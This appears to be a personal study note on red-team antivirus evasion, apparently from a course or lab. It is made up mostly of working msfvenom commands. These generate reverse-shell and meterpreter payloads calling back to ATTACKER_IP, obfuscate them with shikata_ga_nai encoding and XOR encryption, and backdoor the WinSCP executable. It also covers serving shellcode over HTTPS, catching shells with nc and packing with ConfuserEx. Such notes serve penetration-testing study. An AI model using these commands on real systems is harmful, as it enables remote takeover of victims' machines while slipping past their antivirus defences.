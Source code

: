 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/red-teaming/av-evasion/"}
---
```







## ==Stageless Payloads==

- Embeds the final shellcode directly into itself.
- After the program is executed, the embedded shellcode will run, providing a reverse shell to the attacker.

## ==Staged Payloads==

- Work by using intermediary shellcodes called stager, provides a means to retrieve the final shellcode.

## ==Stagers in msf==

### Stageless

```C#
windows/x64/shell_reverse_tcp
```

### Staged

```C#
windows/x64/shell/reverse_tcp
```

- Refer to csharp_workshop for more payloads.x

## ==Using stager to run a reverse shell==

```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

- After this, setup up a HTTPS server.

```Shell
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

- After this, spawn a simple HTTPS server with py3.

```Shell
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

- Set up an nc listener to receive the reverse shell on the same port specified when running msfvenom

```Shell
nc -lvp 7474
```

## ==Encoding==

- Listing encoders with msfvenom

```Shell
msfvenom --list encoders | grep excellent
```

- Choose shikata_ga_nai and then specify the payload three times with -i.

```Shell
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

## ==Encryption==

```Shell
msfvenom --list encrypt
```

- Build an XOR encrypted payload. Specify a key.

```Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

## ==Packing & Unpacking==

- generate a new shellcode and put it into the `shellcode` variable of the code

```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

- After this, compile the program

```Shell
csc UnEncStagelessPayload.cs
```

- Use ConfuserEx for packing.

## ==Binding==

- Bind a payload with the application executable with msfvenom.
- For this task, backdoor WinSCP executable available.

```Shell
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

- Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.
